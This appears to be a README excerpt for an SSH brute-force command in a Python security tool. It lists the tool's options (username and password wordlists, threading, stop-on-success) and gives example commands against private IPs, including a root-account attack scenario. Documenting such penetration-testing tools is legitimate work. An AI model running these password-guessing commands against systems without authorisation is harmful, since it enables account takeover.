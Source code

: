 **Key Features:**
- Username/password list support
- Connection rate limiting
- Success detection
- Result logging
- Multi-threading support
- Custom port targeting
- Multiple target support

**Parameters:**
- `--target`: Single target IP or hostname
- `--targets-file`: File containing multiple targets
- `--username`: Single username to try
- `--usernames-file`: File containing usernames
- `--wordlist`: Password wordlist file
- `--passwords-file`: Alternative password file
- `--port`: SSH port (default: 22)
- `--threads`: Number of parallel attempts
- `--timeout`: Connection timeout in seconds
- `--delay`: Delay between attempts
- `--stop-on-success`: Stop after finding valid credentials
- `--output`: Output file for results

**Example Usage:**
```bash
# Basic SSH brute force - Single target
python src/cli.py ssh-brute-force \
    --target 192.168.1.100 \
    --username admin \
    --wordlist passwords.txt

# Advanced SSH brute force - Multiple targets
python src/cli.py ssh-brute-force \
    --target 192.168.1.100 \
    --targets-file targets.txt \
    --usernames-file users.txt \
    --passwords-file passwords.txt \
    --port 2222 \
    --threads 4 \
    --timeout 30 \
    --stop-on-success \
    --output results.txt
```

**Attack Scenarios:**
1. Single User Testing
   ```bash
   # Test specific user account
   python src/cli.py ssh-brute-force \
       --target 192.168.1.100 \
       --username root \
       --wordlist common_passwords.txt \
       --delay 2 \
       --stop-on-success
   ```

